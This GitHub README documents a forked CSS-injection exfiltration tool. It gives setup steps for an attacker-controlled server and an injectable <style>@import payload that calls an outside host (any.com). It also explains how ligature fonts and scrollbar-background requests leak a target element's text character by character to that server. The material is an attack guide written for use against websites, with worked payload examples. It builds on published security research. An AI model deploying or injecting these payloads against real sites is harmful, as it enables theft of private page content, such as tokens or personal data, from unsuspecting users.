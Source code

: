 ./githubDemo.mp4

# Preface

Code is kinda janky and not well tested. 

# Install on your own server

0. Get a Debian 12 VPS(512MB RAM and 1 Core CPU was enough for me) and link a domain(any.com) to your server and wait for it to  propagate(https://www.whatsmydns.net/) (usually takes max 1hour depending on the ttl configured for your domain)

1. Run the following as root on the Debian 12 VPS:
```bash
apt install apache2 certbot python3-certbot-apache -y && certbot --authenticator webroot --installer apache --register-unsafely-without-email
```
and agree to the terms, enter your domain(any.com) and enter /var/www/html as webroot then run the following as root on the Debian 12 VPS:
```bash
apt install git -y && git clone https://github.com/sys0wn/css-scrollbar-attack && cd css-scrollbar-attack && chmod +x install.sh && bash install.sh
```

# How to use it

0. Use a chromium-based Browser that supports webkit scrollbar-styling. I have tested Chromium and Google Chrome.
1. On the website you are trying to target pick an html element you want to steal.
2. Find a combination of css selectors, that points directly to the element(e.g: p { color: red } targets all p-tags, so if there is more than 1 it doesn't point to ONLY one element and therefore no exfiltration will be possible). Use Selectors like ```https://developer.mozilla.org/en-US/docs/Web/CSS/CSS_selectors``` and combine as many as needed to point directly to the target element. Examples for this:

```
<!doctype html>
<body>
<div>
   <h4>a</h4>
   <p id=leakme class="leakme">stealThis</p>
</div>
</body>
</html>
```

Here, the "stealThis" could be pointed to for example by: p {}, div > p {}, #leakme {}, .leakme {}, div > #leakme {}, body > div > p {}, h4 + p {}, div > h4 + p {} and many many more


You can test if your combination of selectors points directly to your target element by hitting CTRL+SHIFT+C and searching for something like ```#leakme``` or ```div > p```; If there is only one result for your search that is a combination of selectors you can use!

3. Create the payload for your CSS-Injection by plugging your combination of selectors into the following syntax: ```<style>@import url('//any.com/%23leakme/css.css');</style>``` where you have to replace the %23leakme with your URL-ENCODED(you can use websites like https://www.urlencoder.org/) combination of selectors.

# Example

```
<!doctype html>
<body>
<div>
   <h4>a</h4>
   <p id=leakme class="leakme">stealThis</p>
</div>
</body>
</html>
```

```div > h4 + p```  -->  ```<style>@import url('//any.com/div%20%3E%20h4%20%2B%20p/css.css');</style>```

# Demo

https://jsfiddle.net/q3mc5kxn/1/

https://any.com/index.html                 //Once you've installed it on your server


# How it works (short)

If <style>@import url('//any.com/div%20%3E%20h4%20%2B%20p/css.css');</style> is injected into a website the server will create a lot of fonts with different ligatures (https://en.wikipedia.org/wiki/Ligature_(writing)) that are used to bruteforce one character at a time by performing a binary search on the target text and exfiltrating it to a remote server. All the logic is serverside and the only client-side code that has to be injected is the <style> tag above that points to the target element.

# How it works (medium)


https://any.com/ is running a node server(this Github project), which will be the backend for the attack and serve all the css and handle the logic involved.
***
A ligature in a font is a sequence of at least two characters, which has its own graphical representation (for more info https://en.wikipedia.org/wiki/Ligature_(writing))
***

1. The @import will send a GET request to https://any.com/div%20%3E%20h4%20%2B%20p/css.css
2. The server receives the combination of selectors ```div%20%3E%20h4%20%2B%20p``` and therefore now knows which element to target and which text to steal
3. As a response to the GET request the following css is returned ```@import url('//any.com/start');```. This css will also be applied to the target page and a GET Request will be sent to https://any.com/start

4. Now, as a response to /start the any.com backend will do the following:

- For each character in "@.abcdefghijklmnopqrstuvwxyz...", generate a ligature starting from the first-letter. So lets say the text of the target element starts with a "s"; we will create 3 fonts: 1 for "@.abcdefgh", 1 for "ijklmnopqr" and 1 for "stuvwxyz". Now we create the ligatures: font 1 will have a ligature for "s@", "s.", "sa", "sb" ...  font2 will have a ligature for "si", "sj" ... and so on. 
- Using a CSS animation apply each of the fonts to the target-element one after each other. The first font that causes one of the ligatures("s@", "s.", "st", "sa" ...) to render is interesting to us, as if e.g. the font for "@.abcdefgh" causes a ligature to render, that gives us the information, that the second character is one of "@.abcdefgh". (Because a ligature from the first letter to the second letter was rendered which means that the second character has to be one of "@.abcdefgh".
- In order to exfiltrate this information, each of the ligatures has a very high ```horiz-adv-x``` value. This will result in the target-element getting substantially wider if the current "correct" font  is applied and a ligature is rendered. This width change will cause a scrollbar to appear. If the scrollbar appears, it will exfiltrate the information, that the second letter is one of "@.abcdefgh". This is done like this:

```
p::-webkit-scrollbar {
    background: blue;
}
p::-webkit-scrollbar:horizontal {
    background:var(--x);
}`;
```

Where --x (a css variable) is set to something like "https://any.com/@.abcdefgh" when font1 is applied at the beginning.

- Now, start again. This time create ligatures for each character in "@.abcdefgh" -> font1: "@.ab" font2: "cde", font3: "fgh"
- Keep using the same technique to perfrom a kind of binary search on each letter using ligatures, cutting the amount of possible letters in half every time until only one remains. Then move on the next letter performing the next binary search until the entire word is leaked.

References: https://aszx87410.github.io/beyond-xss/en/ch3/css-injection-2/, https://book.hacktricks.xyz/pentesting-web/xs-search/css-injection, https://vwzq.net/slides/2019-s3_css_injection_attacks.pdf, https://github.com/cgvwzq/css-scrollbar-attack/

# How it works (long)

Read the (kinda) documented source code (index.js)

# Limitations

- In the current configuration ~30 chars is max amount that can be exfiltrated but this is not a hard limit and can be increased I think
- Characters a-z A-Z 0-9 .@+!#=$^    but in theory there are no limitations which printable characters are possible, it's just a hassle because you have to correctly encode it and stuff.
- The Browser tab from which the text will be exfiltrated always has to stay in focus(don't switch tab, dont minimize window etc.)
- It takes some time to exfiltrate the text, but this can be optimised, for example by using only a-z if the others aren't needed or decreasing the DURATION and/or DELAY variable in the js and so on. The current configuration of the code is aimed at reliability and support for as much chars as possible etc.

# Tip

- If you face seemingly illogical errors while trying to reproduce this go to: ```chrome://settings/privacy``` and clean the cache(fonts are cached which might mess with the detection and exfiltration.
***
# This repo is a fork of https://github.com/cgvwzq/css-scrollbar-attack which I have modified, improved and documented. Thanks to cgvwzq for the awesome code and thanks to @SecurityMB (https://sekurak.pl/wykradanie-danych-w-swietnym-stylu-czyli-jak-wykorzystac-css-y-do-atakow-na-webaplikacje/) for coming up with (part of) the idea (I think).
